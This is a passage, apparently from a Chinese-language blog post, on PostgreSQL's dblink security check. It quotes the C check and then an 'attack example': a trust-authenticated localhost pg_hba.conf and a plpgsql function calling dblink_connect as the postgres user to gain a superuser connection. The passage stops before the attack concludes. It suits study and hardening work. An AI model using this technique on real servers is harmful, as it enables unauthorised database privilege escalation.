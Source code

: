 ```  
                        } \  
        } while (0)  
  
static void  
dblink_security_check(PGconn *conn, remoteConn *rconn)  
{  
        if (!superuser())  
        {  
                if (!PQconnectionUsedPassword(conn))  
                {  
                        PQfinish(conn);  
                        if (rconn)  
                                pfree(rconn);  
  
                        ereport(ERROR,  
                                  (errcode(ERRCODE_S_R_E_PROHIBITED_SQL_STATEMENT_ATTEMPTED),  
                                   errmsg("password is required"),  
                                   errdetail("Non-superuser cannot connect if the server does not request a password."),  
                                   errhint("Target server's authentication method must be changed.")));  
                }  
        }  
}  
```  
  
攻击例子：  
  
假设本地有一个数据库监听了1921端口，同时127.0.0.1地址为trust。  
  
```  
local   all             all                                     trust  
# IPv4 local connections:  
host    all             all             127.0.0.1/32            trust  
# IPv6 local connections:  
#host    all             all             ::1/128                 trust  
```  
  
在本地假设还有一个其他的数据库实例，1922端口，或者本地数据库也行，反正都能达到攻击目的。  
  
创建一个函数，连接到127.0.0.1  
  
```  
psql -p 1922  
postgres=> create or replace function dblink() returns void as $$                      
declare  
begin  
  perform dblink_connect('hostaddr=127.0.0.1 port=1921 user=postgres password=1');  
exception when others then   
return;   
end;  
$$ language plpgsql ;  
```  
  